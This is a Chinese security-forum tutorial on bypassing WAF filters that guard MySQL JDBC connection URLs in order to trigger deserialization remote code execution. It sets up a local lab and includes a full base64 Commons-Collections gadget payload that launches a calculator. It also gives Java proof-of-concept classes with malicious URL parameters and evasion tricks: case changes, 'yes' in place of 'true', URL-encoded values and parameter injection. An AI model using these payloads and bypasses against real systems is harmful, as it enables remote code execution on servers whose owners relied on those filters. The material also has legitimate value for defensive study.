# 征服 JDBC WAF：从防护到绕过的代码解析-先知社区

> **来源**: https://xz.aliyun.com/news/18906  
> **文章ID**: 18906

---

# 征服 JDBC WAF：从防护到绕过的代码解析

JDBC 漏洞遇到了被 waf 了怎么办？好不容易找到一个可以 RCE 的口子，难道就要 GG 吗？各种绕过 waf 的手法对应着不同的 waf ，下面使用环境代码，调试分析调试绕过 waf 的手法

## 环境搭建

首先给到环境代码

<https://github.com/Y4Sec-Team/mysql-jdbc-tricks>

我在依赖中加入了 cc 依赖

```
 <dependency>
            <groupId>mysql</groupId>

            <artifactId>mysql-connector-java</artifactId>

            <version>6.0.2</version>

        </dependency>

        <dependency>
            <groupId>commons-beanutils</groupId>

            <artifactId>commons-beanutils</artifactId>

            <version>1.9.4</version>

        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>

            <artifactId>commons-collections</artifactId>

            <version>3.1</version>

        </dependency>

```

## JDBC 无过滤

```
package org.y4sec.team.app;

import java.sql.DriverManager;

public class Application1 {
    public static void connection(String url){
        try {
            Class.forName("com.mysql.cj.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

可以发现是没有任何过滤的，就是一个简单的 JDBC 连接触发反序列化

只需要直接打就行，

paylaod

```
rO0ABXNyADJzdW4ucmVmbGVjdC5hbm5vdGF0aW9uLkFubm90YXRpb25JbnZvY2F0aW9uSGFuZGxlclXK9Q8Vy36lAgACTAAMbWVtYmVyVmFsdWVzdAAPTGphdmEvdXRpbC9NYXA7TAAEdHlwZXQAEUxqYXZhL2xhbmcvQ2xhc3M7eHBzfQAAAAEADWphdmEudXRpbC5NYXB4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcQB+AABzcgAqb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLm1hcC5MYXp5TWFwbuWUgp55EJQDAAFMAAdmYWN0b3J5dAAsTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ2hhaW5lZFRyYW5zZm9ybWVyMMeX7Ch6lwQCAAFbAA1pVHJhbnNmb3JtZXJzdAAtW0xvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHB1cgAtW0xvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuVHJhbnNmb3JtZXI7vVYq8dg0GJkCAAB4cAAAAAVzcgA7b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNvbnN0YW50VHJhbnNmb3JtZXJYdpARQQKxlAIAAUwACWlDb25zdGFudHQAEkxqYXZhL2xhbmcvT2JqZWN0O3hwdnIAEWphdmEubGFuZy5SdW50aW1lAAAAAAAAAAAAAAB4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuSW52b2tlclRyYW5zZm9ybWVyh+j/a3t8zjgCAANbAAVpQXJnc3QAE1tMamF2YS9sYW5nL09iamVjdDtMAAtpTWV0aG9kTmFtZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sAC2lQYXJhbVR5cGVzdAASW0xqYXZhL2xhbmcvQ2xhc3M7eHB1cgATW0xqYXZhLmxhbmcuT2JqZWN0O5DOWJ8QcylsAgAAeHAAAAACdAAKZ2V0UnVudGltZXVyABJbTGphdmEubGFuZy5DbGFzczurFteuy81amQIAAHhwAAAAAHQACWdldE1ldGhvZHVxAH4AHgAAAAJ2cgAQamF2YS5sYW5nLlN0cmluZ6DwpDh6O7NCAgAAeHB2cQB+AB5zcQB+ABZ1cQB+ABsAAAACcHVxAH4AGwAAAAB0AAZpbnZva2V1cQB+AB4AAAACdnIAEGphdmEubGFuZy5PYmplY3QAAAAAAAAAAAAAAHhwdnEAfgAbc3EAfgAWdXEAfgAbAAAAAXQABGNhbGN0AARleGVjdXEAfgAeAAAAAXEAfgAjc3EAfgARc3IAEWphdmEubGFuZy5JbnRlZ2VyEuKgpPeBhzgCAAFJAAV2YWx1ZXhyABBqYXZhLmxhbmcuTnVtYmVyhqyVHQuU4IsCAAB4cAAAAAFzcgARamF2YS51dGlsLkhhc2hNYXAFB9rBwxZg0QMAAkYACmxvYWRGYWN0b3JJAAl0aHJlc2hvbGR4cD9AAAAAAAAAdwgAAAAQAAAAAHh4dnIAEmphdmEubGFuZy5PdmVycmlkZQAAAAAAAAAAAAAAeHBxAH4AOQ==
```

启动 server



运行 paylaod

```
package org.y4sec.team.app;

import java.sql.DriverManager;

    public class Application1 {
        public static void main(String[] args) {
            String addr = "127.0.0.1:3306";
            String params = "detectCustomCollations=true&autoDeserialize=true&user=deser_CUSTOM";
            String url = String.format( "jdbc:mysql://%s/test?%s",addr,params);

            Application1.connection(url);
        }
    public static void connection(String url){
        try {
            Class.forName("com.mysql.cj.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```



## 大小写绕过

增加了过滤

```
private static boolean check(String jdbcUrl){
    try {
        Map<String, String> params = new HashMap<>();
        String query = jdbcUrl.split("\?")[1];
        if (query != null) {
            String[] pairs = query.split("&");
            for (String pair : pairs) {
                String[] keyValue = pair.split("=");
                String key = keyValue[0];
                String value = keyValue.length > 1 ? keyValue[1] : "";
                params.put(key, value);
            }
        }

        System.out.println("Params: " + params);

        for (Map.Entry<String,String> p: params.entrySet()){
            if (p.getKey().equals("autoDeserialize")) {
                if(p.getValue().equals("true")){
                    return false;
                }
            }
        }

        return true;
    } catch (Exception e) {
        e.printStackTrace();
        return false;
    }
```

这里 waf 的缺陷是没有过滤大小写

paylaod

```
package org.y4sec.team.app;

import java.net.URI;
import java.sql.DriverManager;
import java.util.HashMap;
import java.util.Map;

public class Application2 {
    public static void main(String[] args) {
        String addr = "127.0.0.1:3306";
        String params = "detectCustomCollations=true&autoDeserialize=true&user=deser_CUSTOM";
        String url = String.format("jdbc:mysql://%s/test?%s", addr, params);

        Application2.connection(url);
    }
    public static void connection(String url){
        try {
            if(!check(url)) {
                System.out.println("you are hacker");
                return;
            }
            Class.forName("com.mysql.cj.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static boolean check(String jdbcUrl){
        try {
            Map<String, String> params = new HashMap<>();
            String query = jdbcUrl.split("\?")[1];
            if (query != null) {
                String[] pairs = query.split("&");
                for (String pair : pairs) {
                    String[] keyValue = pair.split("=");
                    String key = keyValue[0];
                    String value = keyValue.length > 1 ? keyValue[1] : "";
                    params.put(key, value);
                }
            }

            System.out.println("Params: " + params);

            for (Map.Entry<String,String> p: params.entrySet()){
                if (p.getKey().equals("autoDeserialize")) {
                    if(p.getValue().equals("true")){
                        return false;
                    }
                }
            }

            return true;
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        }
    }
}
```

只需要大小写绕过即可

当然有些师傅会怀疑这样的绕过有价值吗？实战中还是有的，因为开发人员总会有疏忽的，而且开发人员水平参差不齐，更别说安全意识，大公司可能有检测，但是一般的估计根本不会二次检测，所以任然有一定的价值

## 源码解读之关键字替换

```
private static boolean check(String jdbcUrl){
    try {
        Map<String, String> params = new HashMap<>();
        String query = jdbcUrl.split("\?")[1];
        if (query != null) {
            String[] pairs = query.split("&");
            for (String pair : pairs) {
                String[] keyValue = pair.split("=");
                String key = keyValue[0];
                String value = keyValue.length > 1 ? keyValue[1] : "";
                params.put(key, value);
            }
        }

        System.out.println("Params: " + params);

        for (Map.Entry<String,String> p: params.entrySet()){
            if (p.getKey().equals("autoDeserialize")) {
                String value = p.getValue();
                value = value.toLowerCase();
                if(value.equals("true")){
                    return false;
                }
            }
        }

        return true;
    } catch (Exception e) {
        e.printStackTrace();
        return false;
    }
```

可以看见这次 waf 就防范了大小写

我们把这个 waf 分开看，还检测了 key 的 value，只是不能为 ture，但是表示为真的还有一般常见的比如 1，yes 等等，这里输入 1

发现报错了

```
java.sql.SQLException: The connection property 'autoDeserialize' only accepts values of the form: 'true', 'false', 'yes' or 'no'. The value '1' is not in this set.
```

那我们使用 yes

```
public String[] getAllowableValues() {
    return new String[] { "true", "false", "yes", "no" };
}
```



POC

```
package org.y4sec.team.app;

import java.net.URI;
import java.sql.DriverManager;
import java.util.HashMap;
import java.util.Map;

public class Application3 {
    public static void main(String[] args) {
        String addr = "127.0.0.1:3306";
        String params = "detectCustomCollations=true&autoDeserialize=yes&user=deser_CUSTOM";
        String url = String.format("jdbc:mysql://%s/test?%s", addr, params);

        Application3.connection(url);
    }
    public static void connection(String url){
        try {
            if(!check(url)) {
                System.out.println("you are hacker");
                return;
            }
            Class.forName("com.mysql.cj.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static boolean check(String jdbcUrl){
        try {
            Map<String, String> params = new HashMap<>();
            String query = jdbcUrl.split("\?")[1];
            if (query != null) {
                String[] pairs = query.split("&");
                for (String pair : pairs) {
                    String[] keyValue = pair.split("=");
                    String key = keyValue[0];
                    String value = keyValue.length > 1 ? keyValue[1] : "";
                    params.put(key, value);
                }
            }

            System.out.println("Params: " + params);

            for (Map.Entry<String,String> p: params.entrySet()){
                if (p.getKey().equals("autoDeserialize")) {
                    String value = p.getValue();
                    value = value.toLowerCase();
                    if(value.equals("true")){
                        return false;
                    }
                }
            }

            return true;
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        }
    }
}
```

成功弹出计算器



## 源码解读之URL 编码绕过

### 初步分析

waf 如下

```
private static boolean check(String jdbcUrl) {
    try {
        Map<String, String> params = new HashMap<>();
        String query = jdbcUrl.split("\?")[1];
        if (query != null) {
            String[] pairs = query.split("&");
            for (String pair : pairs) {
                String[] keyValue = pair.split("=");
                String key = keyValue[0];
                String value = keyValue.length > 1 ? keyValue[1] : "";
                params.put(key, value);
            }
        }

        System.out.println("Params: " + params);

        for (Map.Entry<String, String> p : params.entrySet()) {
            if (p.getKey().equals("autoDeserialize")) {
                String value = p.getValue();
                value = value.toLowerCase();
                if (value.equals("true") || value.equals("yes")) {
                    return false;
                }
            }
        }
```

这次把 yes 也过滤了

我们的思路可以走向代码本身对参数的解析了，一般这种就需要你对代码的分析了，所以开始调试分析

### 调试分析

进入 DriverManager.getConnection 开始数据库的连接

```
public static void connection(String url) {
    try {
        if (!check(url)) {
            System.out.println("you are hacker");
            return;
        }
        Class.forName("com.mysql.cj.jdbc.Driver");
        DriverManager.getConnection(url);
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

跟进 getConnection

```
public static Connection getConnection(String url)
    throws SQLException {

    java.util.Properties info = new java.util.Properties();
    return (getConnection(url, info, Reflection.getCallerClass()));
}
```

关键代码如下

遍历驱动器，然后去驱动我们的连接

```
for(DriverInfo aDriver : registeredDrivers) {
    // If the caller does not have permission to load the driver then
    // skip it.
    if(isDriverAllowed(aDriver.driver, callerCL)) {
        try {
            println("    trying " + aDriver.driver.getClass().getName());
            Connection con = aDriver.driver.connect(url, info);
            if (con != null) {
                // Success!
                println("getConnection returning " + aDriver.driver.getClass().getName());
                return (con);
            }
        }
```

跟进 connect 方法

```
ConnectionString conStr = new ConnectionString(url, info);
```

进入 ConnectionString 方法

```
public ConnectionString(String url, Properties info) {
    this.url = url;
    this.properties = parseUrl(url, info);

    if (this.properties == null) {
        return;
    }

    if (StringUtils.startsWithIgnoreCase(url, ConnectionStringType.LOADBALANCING_CONNECTION.urlPrefix)) {
        this.connectionStringType = ConnectionStringType.LOADBALANCING_CONNECTION;

    } else if (StringUtils.startsWithIgnoreCase(url, ConnectionStringType.REPLICATION_CONNECTION.urlPrefix)) {
        this.connectionStringType = ConnectionStringType.REPLICATION_CONNECTION;
        this.masterProps = (Properties) this.properties.clone();
        this.slavesProps = (Properties) this.properties.clone();

    } else if (!"1".equals(this.properties.getProperty(PropertyDefinitions.NUM_HOSTS_PROPERTY_KEY))) {
        this.connectionStringType = ConnectionStringType.FAILOVER_CONNECTION;

    } else if (StringUtils.startsWithIgnoreCase(url, ConnectionStringType.X_SESSION.urlPrefix)) {
        this.connectionStringType = ConnectionStringType.X_SESSION;

    } else {
        this.connectionStringType = ConnectionStringType.SINGLE_CONNECTION;
    }

    this.connectionStringType.fillPropertiesFromUrl(url, this.properties, this.masterProps, this.slavesProps, this.slaveHostList, this.masterHostList);

}
```

这里就开始对各种参数赋值了

其中我们的输入是在如下代码解析的

```
this.properties = parseUrl(url, info);
```

跟进 parseUrl 方法

代码很长，一部分一部分看

```
int beginningOfSlashes = url.indexOf("//");

/*
 * Parse parameters after the ? in the URL and remove them from the
 * original URL.
 */
int index = url.indexOf("?");

if (index != -1) {
    String paramString = url.substring(index + 1, url.length());
    url = url.substring(0, index);

    StringTokenizer queryParams = new StringTokenizer(paramString, "&");

    while (queryParams.hasMoreTokens()) {
        String parameterValuePair = queryParams.nextToken();

        int indexOfEquals = StringUtils.indexOfIgnoreCase(0, parameterValuePair, "=");

        String parameter = null;
        String value = null;

        if (indexOfEquals != -1) {
            parameter = parameterValuePair.substring(0, indexOfEquals);

            if (indexOfEquals + 1 < parameterValuePair.length()) {
                value = parameterValuePair.substring(indexOfEquals + 1);
            }
        }
```

根据=和&和?把我们的参数分开

```
if ((value != null && value.length() > 0) && (parameter != null && parameter.length() > 0)) {
    try {
        urlProps.setProperty(parameter, URLDecoder.decode(value, "UTF-8"));
    } catch (UnsupportedEncodingException badEncoding) {
        // punt
        urlProps.setProperty(parameter, URLDecoder.decode(value));
    } catch (NoSuchMethodError nsme) {
        // punt again
        urlProps.setProperty(parameter, URLDecoder.decode(value));
    }
```

对每个 key=value 这种形式开始解析



进行一波 url 解码



所以我们可以 url 编码绕过

### POC

```
package org.y4sec.team.app;

import java.net.URI;
import java.sql.DriverManager;
import java.util.HashMap;
import java.util.Map;

public class Application4 {
    public static void main(String[] args) {
        String addr = "127.0.0.1:3306";
        String params = "detectCustomCollations=true&autoDeserialize=%74%72%75%65&user=deser_CUSTOM";
        String url = String.format("jdbc:mysql://%s/test?%s", addr, params);

        Application4.connection(url);
    }
    public static void connection(String url) {
        try {
            if (!check(url)) {
                System.out.println("you are hacker");
                return;
            }
            Class.forName("com.mysql.cj.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static boolean check(String jdbcUrl) {
        try {
            Map<String, String> params = new HashMap<>();
            String query = jdbcUrl.split("\?")[1];
            if (query != null) {
                String[] pairs = query.split("&");
                for (String pair : pairs) {
                    String[] keyValue = pair.split("=");
                    String key = keyValue[0];
                    String value = keyValue.length > 1 ? keyValue[1] : "";
                    params.put(key, value);
                }
            }

            System.out.println("Params: " + params);

            for (Map.Entry<String, String> p : params.entrySet()) {
                if (p.getKey().equals("autoDeserialize")) {
                    String value = p.getValue();
                    value = value.toLowerCase();
                    if (value.equals("true") || value.equals("yes")) {
                        return false;
                    }
                }
            }

            return true;
        } catch (Exception e) {
            e.printStackTrace();
            return false;
        }
    }
}
```

运行弹出计算器



## 更换传入参数方法

```
package org.y4sec.team.app;

import java.net.URLDecoder;
import java.sql.DriverManager;

public class Application6 {
    public static void connection(String addr,String user,String db,String password,String extra) {
        try {
            String url = String.format("jdbc:mysql://%s/%s?",addr,db);
            StringBuilder sb = new StringBuilder();
            sb.append("user=");
            sb.append(user);
            sb.append("&");
            sb.append("password=");
            sb.append(password);
            if (!extra.equals("")){
                sb.append("&");
                sb.append(extra);
            }

            url = url + sb;

            Class.forName("com.mysql.cj.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

是没有过滤的，只是更换了一种传入参数的方法

在实战传入参数的方法多种多样

POC

```
package org.y4sec.team.app;

import java.net.URLDecoder;
import java.sql.DriverManager;

public class Application6 {
    public static void main(String[] args) {
        // 可控内容
        String addr = "127.0.0.1:3306";
        String user = "deser_CUSTOM";
        String password = "test";
        String db = "test";
        String extra = "detectCustomCollations=true&autoDeserialize=true";

        Application6.connection(addr,user,db,password,extra);
    }
    public static void connection(String addr,String user,String db,String password,String extra) {
        try {
            String url = String.format("jdbc:mysql://%s/%s?",addr,db);
            StringBuilder sb = new StringBuilder();
            sb.append("user=");
            sb.append(user);
            sb.append("&");
            sb.append("password=");
            sb.append(password);
            if (!extra.equals("")){
                sb.append("&");
                sb.append(extra);
            }

            url = url + sb;

            Class.forName("com.mysql.cj.jdbc.Driver");
            DriverManager.getConnection(url);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

